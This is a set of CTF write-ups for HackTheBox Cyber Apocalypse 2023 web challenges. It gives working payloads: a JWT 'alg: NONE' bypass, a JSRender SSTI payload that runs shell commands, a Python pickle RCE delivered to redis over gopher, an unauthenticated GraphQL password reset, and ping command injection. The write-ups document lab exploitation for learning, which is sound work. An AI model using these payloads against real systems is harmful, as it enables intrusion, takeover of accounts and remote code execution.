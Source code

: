 # HTB-CA23
HackTheBox CyberApocalypse 2k23 writeups (Rowra)


## Web/Didactic Octo Paddle
* in `middleware/AdminMiddleware.js` you can notice the `else` clause in which `jwt.verify` func. call's 2nd parameter is `null`. This means there's not crypt involved. This obviously means very easily crafted JWTs
* the only `algorithm` matching this is `none`, however, the code's supposed to defend against that with an early return in the code
* with some trial & error I managed to bypass the mentioned early return by using the algorithm `NONE` _(capital)_. Meaning the actual working payload as follows _(parts are separated by a `.` dot)_:
1st part: `echo -n '{"typ":"JWT","alg":"NONE"}' | base64`
2nd part: the one you already have, just change `id` to `1` _(admin's id)_
3rd part: empty _(nothing following the `.`)_
* as the webapp's admin, still need to access `/flag.txt`. The code rendering `/admin` endpoint uses `JSRender NodeJS`. All that was left to do is to register a user with a username that's exploiting SSTI and then check `/admin` page for the flag. Working payload:
`{"username":"{{:\"pwnd\".toString.constructor.call({},\"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()\")()}}","password":"fdg"}`

## Web/Trap Track
* you can read `admin:admin` admin creds from the source code
* you can follow the flow of the code but a check added on the admin page eventually lands at `worker/curltest.py`. It's quite obviously unsanitized, will run anything
* there's a python pickle deserialization which is a pretty bad practice and unsafe if we can control the input. It happens at multiple stages but I chose `application/cache.py`'s `get_job_queue` function as I deemed it pretty stable and easily reproduced at any time. This functions expects a `job_id` after which it'll read the job with that id from redis and unserialize it without any sanitization, again. The API endpoint belonging to this function call is `/api/tracks/<id>/status`
* `libcurl` can do `gopher` and redis may be controller through gopher calls.
* To put it all together and summarize:
1. generate payload:
```
import pickle 
import base64 
import os 
 
class RWR: 
    def __reduce__(self): 
        cmd = '''curl -XPOST http://127.0.0.1:1337/api/tracks/add -d "{\\"trapName\\": \\"`/readflag`\\", \\"trapURL\\": \\"http://1.2.3.4\\"}" -H "Co
ntent-Type: application/json" -H "Cookie: session=<admin cookie here>"''' 
        return os.system, (cmd, ) 
 
 
if __name__ == '__main__': 
    pickled = pickle.dumps(RWR()) 
    b64 = base64.b64encode(pickled).decode() 
    print(f'gopher://127.0.0.1:6379/_hset%20jobs%204444%20{b64}')
```
2. add the `gopher://` link received _(payload)_ on the admin page
3. detonate payload by `GET`ting `/api/tracks/4444/status`
4. go back to the admin site to collect the flag from the name of yet another added entry

## Web/Passman
* register a random user
* play around with the `graphql` queries and realise that `helpers/GraphqlHelper.js` line `#96` `UpdatePassword` does not check anything. A simple auth will do just fine and you can edit anyone's password
* craft a malicious `graphql query`:
{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message } }","variables":{"username":"admin","password":"hahayouredone"}}
* login as admin

## Web/Gunhead
* the `/PING` command is pretty shady. Feels like it's passed straight through to shell
* `/ping 127.0.0.1; whoami` works just fine
* `/ping 127.0.0.1; ls /` shows the flag as `/flag.txt`
* `/ping 127.0.0.1; cat /flag.txt`

## Web/Trapped Source
* in the source code you can see the `js` included `/static/js/script.js`
* `script.js` has a function called `checkPin` which checks if entered ping is equal to `CONFIG.correctPin`
* just enter `CONFIG.correctPin` in the browser console and get the correct code `7298`

